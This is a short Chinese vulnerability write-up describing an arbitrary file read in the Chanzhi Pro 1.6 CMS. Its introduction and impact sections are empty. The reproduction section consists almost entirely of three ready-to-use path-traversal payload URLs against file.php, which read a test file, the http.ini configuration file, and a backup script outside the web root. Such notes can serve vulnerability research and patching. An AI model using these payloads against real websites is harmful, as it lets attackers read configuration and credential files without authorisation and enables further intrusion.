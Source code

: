 ```yaml
---
title: 禅知Pro 1.6 前台任意文件读取
id: zhfly3359
---
```


# 禅知 Pro 1.6 前台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在网站根目录C:\xampp\chanzhi\www新建一个测试文件test.php

![image](../img/8e32133e24404b6dde0031f0749526be.png)

执行payload查看文件内容：

```
http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source 
```

![image](../img/632b35512d05b86d4f7ab6311b0c8a16.png)

执行payload来查看程序的配置文件：

```
http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source 
```

![image](../img/cd3e3cc4e3e49c97362cf023bb50eb0b.png)

跨目录读取文件（前提是有目录权限）：

```
http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source 
```